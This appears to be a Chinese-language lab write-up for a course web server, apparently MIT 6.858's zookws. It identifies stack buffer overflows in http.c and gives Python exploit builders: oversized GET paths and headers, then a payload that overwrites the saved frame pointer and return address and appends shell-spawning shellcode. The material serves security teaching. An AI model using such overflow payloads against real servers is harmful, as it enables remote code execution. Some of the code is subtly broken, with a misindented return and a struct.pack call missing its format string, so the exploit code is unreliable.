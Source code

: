 ```
        ...
            sprintf(envvar, "HTTP_%s", buf); // 将 HTTP header 读出一个

[http.c:282]
这里 pn 会被来自客户端的 name 栈溢出(就是之前的reqpath)，当 path 是 1024 行 \0 时

    char pn[1024];
    ...
    strcat(pn, name);
```
{: file='bugs.txt'}

## exercise 2. 造成溢出

选取 [http.c:282] 来做溢出：

```python
def build_exploit(shellcode):
    ## Things that you might find useful in constructing your exploit:
    ##   urllib.quote(s)
    ##     returns string s with "special" characters percent-encoded
    ##   struct.pack("<I", x)
    ##     returns the 4-byte binary encoding of the 32-bit integer x
    ##   variables for program addresses (ebp, buffer, retaddr=ebp+4)
    path = "/" + 'A'*1024
    req =   "GET " + path + " HTTP/1.0\r\n" + \
               "\r\n"
        return req
```
{: file='exploit-2a.py'}

选取 [http.c:165] 来溢出：

```python
    req =   "GET / HTTP/1.0\r\n " + \
               "Content-type: " + "A"*600 + \
               "\r\n"
```
{: file='exploit-2b.py'}

## exercise 3. 编写 shellcode

选用  [http.c:282] http_serve 函数来利用。

首先，要控制程序的 program counter。很容易想到的是覆盖 `http_serve()` 的 ret address（但其实这里有一个陷阱）。按照课程教材，运行 gdb 获取 saved ebp 的内存地址，用教材自带的样例 shellcode，即打开一个 shell 来验证劫持是否成功，然后构造 exploit 如下：

```python
def build_exploit(shellcode):
    ## Things that you might find useful in constructing your exploit:
    ##   urllib.quote(s)
    ##     returns string s with "special" characters percent-encoded
    ##   struct.pack("<I", x)
    ##     returns the 4-byte binary encoding of the 32-bit integer x
    ##   variables for program addresses (ebp, buffer, retaddr=ebp+4)
    path = "/" + 'A'*1020 + 'SEBP' + struct.pack(stack_retaddr+4) + shellcode
    req =   "GET " + path + " HTTP/1.0\r\n" + \
            "\r\n"
    return req
```
